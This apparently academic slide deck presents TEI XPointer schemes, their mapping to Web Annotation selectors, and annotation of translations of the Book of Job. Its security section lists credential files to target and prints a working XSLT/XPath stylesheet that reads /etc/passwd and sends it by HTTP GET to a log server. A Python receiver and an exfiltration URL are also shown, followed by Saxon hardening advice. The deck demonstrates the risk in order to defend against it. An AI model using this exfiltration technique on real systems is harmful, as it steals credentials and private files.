


# TEI XPointer Schemes

::: { .subtitle }

Implementation and Example Application

:::

::: { .attribution .text-left }

Johannes Schnocks, University of Münster <br/>
Ludger Hiepel, University of Münster <br/>
Christian Lück, University of Münster

:::

## Table of Contents { .align-top .xxsmall }

1. TEI XPointer Schemes

1. `<tei:annotation>` + XPointers

1. Example Application: Old Testament Studies

1. Security


# TEI XPointer Schemes

## XPointers { .align-top .xxsmall }

::: incremental

- point to a portion of a document
- not just `#idref`
- describe the *portion* by XPath
- `#xpath(/TEI[1]/text[1]//p[position() gt 4])`
- point to a *point* inside the document
- `#left(/TEI[1]/text[1]//p[4])`
- describe the *point* by XPath and string offset
- `#string-index(/TEI[1]/text[1]//p[4],10)`
- point to a *range* between 2 points
- `#range(left(/TEI[1]/text[1]//p[4]),right(/TEI[1]/text[1]//p[10]))`
- `#string-range(/TEI[1]/text[1]//p[4],10,42)`

:::

## XPointer Schemes from SATS { .align-top .xxsmall }

::: { .xsmall .text-left }

1. `#xpath( XPATH )` ✓ 
1. `#left( IDREF | XPATH )` ✓
1. `#right( IDREF | XPATH )` ✓
1. `#string-index( IDREF | XPATH, OFFSET )` ✓
1. `#range( POINTER, POINTER [, POINTER, POINTER ]* )` ✓
1. `#string-range( IDREF | XPATH, OFFSET, LENGTH [, IDREF | XPATH, OFFSET, LENGTH ]* )` ✓
1. `#match( IDREF | XPATH, 'REGEX' [, INDEX ] )` x

Equivalents in W3C XPointer schemes. But TEI XPointers (may?) differ in default namespace.

`#xmlns(tei=http://www.tei-c.org/ns/1.0)xpath(...)` x

Namespace scheme, part of the XPointer core standard.

:::

## XPointers are dead { .align-top .xsmall }

::: incremental

- and always were
- Reasons?
- poor design?
- security issues?
- unclear what to do with them (They are just pointing!)
- lack of implementations!
- ...

:::

## Implementation { .align-top .xxsmall}

::: incremental

- syntax: XPath expressions may contain balanced parenthesis, and
  commas, that also delimit pointer 'arguments'
- the syntax is not a regular language, but a CFG (cf. Chomsky 1959)
- parser needed
- implementation comes in modules
  - parser for XPointer grammar (ANTLR)
  - API of XPath functions for doing something with XPointers
  - implementation of the XPointer processor based on Saxon

[https://github.com/scdh/tei-xpointer-schemes](https://github.com/scdh/tei-xpointer-schemes)

:::

## API { .align-top .xxsmall}

::: { .text-left }

XPointers just point. However, you may want to dereference a pointer and get 

- a node
- a sequence of nodes
- a sequence of strings
- a sequence of mixed items or XDM values

Let's have an API!

:::

## Let's have an API! { .align-top .xxsmall }

1. `xptr:get-sequence(doc as document(), xpointer as xs:string) as node()*` ✓
   - returns empty sequence for points, but a sequence for `#range(...)` etc.
1. `xptr:is-sequence(xpointer as xs:string) as xs:boolean`
   - returns `true()` for sequence types
1. `xptr:to-oa-selector(xpointer as xs:string, serialization as xs:string) as node()*` ✓
   - returns an OA selector in any serialization: RDF/XML, Turtle, ...
1. ...


# `<tei:annotation>` <br/> + <br/> XPointers

## &lt;tei:annotation> { .align-top .xxsmall }


::: { .text-left }

Is such a nice element!

:::

. . .

::: { .text-left }

> `<annotation>` represents an annotation following the Web Annotation Data Model. [TEI Reference, v4.6.0]

:::

. . .

::: { .text-left }

... but lacks a friend!

:::

. . .

::: { .text-left style="font-weight:9000" }

There is no component in TEI that––by specification––can represent
selectors of the Web Annotation Data Model.

:::

. . .

Except the guys from SATS!


## XPointers translate to Selectors { .align-top .xxsmall  }

::: {.columns style="margin-top: 1em" .xxxsmall }
:::: {.column width="50%" .xxsmall }

```{xml}
<listAnnotation>
   <annotation
	   id="annot1"
	   xml:base="https://example.com/"
	   target="MT.tei.xml#range(
			   string-index(/TEI[1]/text[1]/body[1]/div[3]/p[2],50),
			   string-index(/TEI[1]/text[1]/body[1]/div[3]/p[4],10))">
	  <!-- annotation body -->
	  <note>My comment.</note>
   </annotation>
   ...
</listAnnotation>
```

::::
:::: {.column width="50%" .xxxsmall }

```{ttl}
@prefix oa: <http://www.w3.org/ns/oa#> .
@prefix rdf: <http://www.w3.org/1999/02/22-rdf-syntax-ns#> .
@prefix ex: <https://example.com/annotations#> .

ex:annot1
    a oa:Annotation ;
    oa:hasBody _annot1Body ;
    oa:hasTarget [
        oa:hasSource <https://example.com/MT.tei.xml> ;
        oa:hasSelector [
            a oa:RangeSelector ;
            oa:hasStartSelector [
                a oa:XPathSelector ;
                rdf:value "/TEI[1]/text[1]/body[1]/div[3]/p[2]" ;
                oa:refinedBy [
                    a oa:FragmentSelector ;
                    oa:conformsTo <http://tools.ietf.org/rfc/rfc5147> ;
                    rdf:value "char=50" ] ] ;
            oa:hasEndSelector [
                a oa:XPathSelector ;
                rdf:value "/TEI[1]/text[1]/body[1]/div[3]/p[4]" ;
                oa:refinedBy [
                    a oa:FragmentSelector ;
                    oa:conformsTo <http://tools.ietf.org/rfc/rfc5147> ;
                    rdf:value "char=10" ] ]
            ] ] .

_annot1body rdf:value "<note>My comment.</note>" .
```
::::
:::

# Example Application: <br/> Old Testament Studies

## Example: Old Testament Studies { .align-top .xxsmall }

- 3 ancient versions of the Book of Ijob
  1. Masoretes' book of Ijob (MT)
  1. translation of MT in Septuagint (LXX)
  1. translation of MT in Targum (TG)
- Research objective: A systematic recording and account of semantic
  deferrals by translations
- digital edition with synoptical represenation
- annotations of semantic deferrals
- translation of the 3 versions to German


## Annotating Semantic Deferrals { .align-top .xxsmall }

::: {.text-left}

Ijob 12.5: *Torch* is translated to *appointment*/*point in time*.

{ width="80%" .align-top .xxsmall}

:::

## Model { .align-top .xxsmall }

```{xml}
<annotation
	xml:id="a12.5_1"
	target="MT.tei.xml#range(left(MT.12.5.6),right(MT.12.5.6))
			LXX.tei.xml#range(left(LXX.12.5.1),right(LXX.12.5.2))
			LXX.tei.xml#range(left(LXX.12.5.4),right(LXX.12.5.4))"
    ana="trans:translation trans:semanticDeferral">
   <note>
	  LXX übersetzt den Konsonantenbestand, führt ihn aber auf <seg
	  xml:lang="he">מעיד</seg> "Termin, Zeitpunkt" zurück.
   </note>
</annotation>
```

. . .

::: { .xxxsmall}
```{xml}
<listPrefixDef>
   <!-- single segment in MT -->
   <prefixDef
	   ident="mt" matchPattern="(\d+)((\.\d+){0,3})$"
       replacementPattern="MT.tei.xml#MT.$1$2"/>
   <!-- word to word in MT -->
   <prefixDef
	   ident="mt" matchPattern="(\d+)(\.\d+)(\.\d+)-(\d+)"
       replacementPattern="MT.tei.xml#range(left(MT.$1$2$3), right(MT.$1$2.$4))"/>
   <!-- consonant to consonant in MT -->
   <prefixDef
	   ident="mt" matchPattern="(\d+)(\.\d+)(\.\d+)(\.\d+)-(\d+)"
       replacementPattern="MT.tei.xml#range(left(MT.$1$2$3$4), right(MT.$1$2$3.$5))"/>
   <!-- mixed in MT -->
   <prefixDef
	   ident="mt" matchPattern="(\d+)((\.\d+){1,3})-(\d+)((\.\d+){1,3})"
       replacementPattern="MT.tei.xml#range(left(MT.$1$2), right(MT.$3$4))"/>
   ...
</listPrefixDef>
```
:::


## Refined Model { .align-top .xxsmall }

```{xml}
<annotation
	xml:id="a12.5_1" target="mt:12.5.6 lxx:12.5.1-2 lxx:12.5.4"
    ana="trans:translation trans:semanticDeferral">
   <note>
	  LXX übersetzt den Konsonantenbestand, führt ihn aber auf <seg
	  xml:lang="he">מעיד</seg> "Termin, Zeitpunkt" zurück.
   </note>
</annotation>
```


- expressions in `annotation/@target` expand to XPointers
- their structure (syntax) comes very close to the researchers' mental model of the text
- thus are very easy to apply and very expressive
- seamless conversion of TEI annotations to Web Annotations Data Model with its Selectors 


## { width="80%" .align-top .xxsmall}
{ width="80%" }

# Security

## Security Risk of XPointers

::: incremental

- The XPointer Processor has to evaluate XPath expressions.
- XPath expressions can contain malicious code.
- Not only an issue of XPointers, but of **any X-Technology** that is
  able to evaluate XPath expressions or requires XPath evaluation:
  XSLT, XQuery, `<tei:cRefPattern>`, `<tei:citeStructure>`, Selectors
  in Web Annotations, ...

:::


## Crafting XPath for Stealing Secrets { .align-top }

::: incremental
::: {.xxsmall}

- /etc/passwd
- /etc/shadow
- ~/.ssh/id_rsa
- ~/.mozilla/firefox/PROFILE/logins.json

- Steal it! But do not include it in the output!
- `read => encode => send over http`
- Chatter! There are no POST requests from XPath!
- Use GET and encode secrets in query parameters

:::
:::

## Send Secrets to a Log Server { .align-top }

```
http://mylogserver.com/log?plain=SECRET&base64=c2VjcmV0Cg==
```

Logs on the Server

```
b'secret\n'
SECRET
127.0.0.1 - - [03/Sep/2023 18:55:36] "GET /log?plain=SECRET&base64=c2VjcmV0Cg== HTTP/1.1" 200 -
```

## Log Server { .align-top }

::: {.xxsmall}
::: {.xxsmall}
```{python}
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs, urlparse
import base64

class LogHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        params = parse_qs(urlparse(self.path).query)
        for p in params.get("base64", []):
            print(base64.b64decode(p))
        for p in params.get("plain", []):
            print(p)
        self.send_response(200)
        self.send_header("Content-Type", "application/xml")
        self.end_headers()
        self.wfile.write(str.encode("<b>true</b>", "UTF-8")) # return true

if __name__ == "__main__":
    server = HTTPServer(("0.0.0.0", 8000), LogHandler)
    server.serve_forever()
```
:::
:::

## XPath for Stealing Secrets { .align-top }

::: {.xxsmall}

```
read => encode => send
```

Identity Transformation, but steals `/etc/passwd`:

::: {.xxsmall}

```{xsl}
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:xs="http://www.w3.org/2001/XMLSchema" exclude-result-prefixes="#all" version="3.0">
    <xsl:mode on-no-match="shallow-copy"/>
    <xsl:template match="/*">
        <xsl:if test="
                let $file := '/etc/passwd',
                    $logserver := 'http://localhost:8000/log?plain=',
                    $encoding := map {
                        'encoding': 'utf8',
                        'method': 'html',
                        'escape-uri-attributes': true()
                    },
                    $read := unparsed-text($file),
                    $encoded := replace($read, '\s+', '_') => serialize($encoding),
                    $response := doc(concat($logserver, $encoded))
                return
                    xs:boolean($response/*:b/text())">
            <xsl:apply-templates/>
        </xsl:if>
    </xsl:template>
</xsl:stylesheet>
```
:::
:::


## Hardening XPointer Processors { .align-top .xxsmall }

::: { .text-left }

=> We have to harden our runtime against such attacks.

:::

. . .

::: { .text-left }

1. On Server: Do not allow access to local file system
1. On Desktop: Do not allow access to outside world

:::

. . .

::: { .xsmall .text-left }

Use a Saxon config file like this:

```
java -cp saxon.jar:other.jar net.sf.saxon.Trans -config:saxon.xml ...
```

```{xml}
<configuration xmlns="http://saxon.sf.net/ns/configuration"
               edition="HE"
               label="Hardened configuration for Desktop">
  <global
    allowedProtocols="file"
    />
</configuration>
```
:::

## Hardening with URI Resolvers { .align-top .xxsmall }

::: { .xsmall .text-left }

Saxon uses URI resolvers for processing all kinds of requests. You can
use hardened URI resolvers that allow access to specific paths of your
file system only. Trying to access other paths will cause an
exception.

:::

::: { .xsmall }
```
<configuration xmlns="http://saxon.sf.net/ns/configuration"
               edition="HE"
               label="Hardened configuration">
  <global
    allowedProtocols="all"
    unparsedTextURIResolver="de.wwu.scdh.saxon.harden.HardenedUnparsedTextResolver"
    uriResolver="de.wwu.scdh.saxon.harden.HardenedURIResolver"
    />
</configuration>
```
:::

```
java -DallowedPath=/home/me/projects -cp saxon.jar:harden.jar:other.jar \
	net.sf.saxon.Trans -config:saxon.xml ...
```

# References { .align-top .xxsmall }

- Chomsky, N. (1959). On Certain Formal Properties of Grammars. In:
  Information and Control 2, 137-167.

- Grosso, P. et al. (2003). XPointer Framework. W3C Recommendation 25
  March 2003. [https://www.w3.org/TR/xptr-framework/](https://www.w3.org/TR/xptr-framework/)

- TEI. (2023). P5: Guidelines for Electronic Text Encoding and
  Interchange. Version 4.6.0. Last updated on 4th April 2023, revision
  f18deffba. [https://tei-c.org/release/doc/tei-p5-doc/en/html/index.html](https://tei-c.org/release/doc/tei-p5-doc/en/html/index.html)

- Sanderson, R. et al. (2017). Web Annotation Vocabulary W3C
  Recommendation 23
  February 2017. [https://www.w3.org/TR/annotation-vocab/](https://www.w3.org/TR/annotation-vocab/)

- Cayless, H. (2013). Rebooting TEI Pointers. In: Journal of the Text
  Encoding Initiative. Issue 6, 2013. doi
  [10.4000/jtei.907](https://doi.org/10.4000/jtei.907)


# Thanks!
